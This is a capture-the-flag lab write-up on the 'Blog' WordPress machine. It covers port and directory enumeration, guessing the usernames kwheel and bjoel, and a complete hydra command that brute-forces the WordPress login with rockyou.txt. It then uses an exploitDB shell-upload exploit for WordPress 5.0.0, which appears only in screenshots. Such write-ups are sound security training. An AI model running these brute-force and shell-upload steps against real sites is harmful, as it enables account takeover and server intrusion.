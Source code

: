 # Blog  
> Billy Joel made a Wordpress blog!  
> Make sure to add ```<your instance IP>  blog.thm``` to your /etc/hosts file  
### Iniital enumeration  

PORT SCAN
```
PORT    STATE SERVICE      REASON  
22/tcp  open  ssh          syn-ack ttl 63  
80/tcp  open  http         syn-ack ttl 63  
139/tcp open  netbios-ssn  syn-ack ttl 63  
445/tcp open  microsoft-ds syn-ack ttl 63  

```
Since this is a wordpress box, we'll use a tool like uniscan to automate directory and file discovery:  

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://blog.thm/admin/
| [+] CODE: 200 URL: http://blog.thm/embed/
| [+] CODE: 200 URL: http://blog.thm/feed/
| [+] CODE: 200 URL: http://blog.thm/login/
| [+] CODE: 200 URL: http://blog.thm/note/
| [+] CODE: 200 URL: http://blog.thm/rss/
| [+] CODE: 200 URL: http://blog.thm/welcome/
| [+] CODE: 200 URL: http://blog.thm/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://blog.thm/admin/index.php
| [+] CODE: 200 URL: http://blog.thm/favicon.ico
| [+] CODE: 200 URL: http://blog.thm/index.php
| [+] CODE: 200 URL: http://blog.thm/license.txt
| [+] CODE: 200 URL: http://blog.thm/readme.html
| [+] CODE: 200 URL: http://blog.thm/robots.txt
| [+] CODE: 200 URL: http://blog.thm/search/htx/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/htx/sqlqhit.asp
| [+] CODE: 200 URL: http://blog.thm/search/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/sqlqhit.asp
===================================================================================================
```
Looking at the blog, we see there's an author called Karen Wheeler.
![image](https://user-images.githubusercontent.com/65077960/124903055-793ffa80-dfdb-11eb-9fed-3f1ea59192a4.png)

Looking at the URL of her author page, we can see the username kwheel, we'll take a note of that as we may be able ot use that in futurue.
Following the syntax of her username, we can infer that Billy Joel's username is probably bjoel, let's try it.
![image](https://user-images.githubusercontent.com/65077960/124903691-1f8c0000-dfdc-11eb-9eaa-a8b369d632df.png)

So we have two usernames that we can potentially use. Let's try bruteforce kwheels' password.

```
hydra -l kwheel -P rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
We have to specify the criteria of a failed attempt since Wordpress doesn't give us a HTTP code such as 403, it always returns 200.
![image](https://user-images.githubusercontent.com/65077960/124904699-2ebf7d80-dfdd-11eb-9533-6e1a755339d9.png)
  
After logging in, we can see there's not a great deal here. Let's take a step back and look at the wordpress version (5.0.0).
We can google the version and see associated exploits.
![image](https://user-images.githubusercontent.com/65077960/124905832-5531e880-dfde-11eb-8b30-d18f78c06c81.png)
Looking at exploitDB, we can see there's a shell upload vuln that we can use (now that we have credentials). Let's try it.

![image](https://user-images.githubusercontent.com/65077960/124906649-3122d700-dfdf-11eb-9cfb-2af2cd638b6f.png)
It worked, time to look for the user flag.



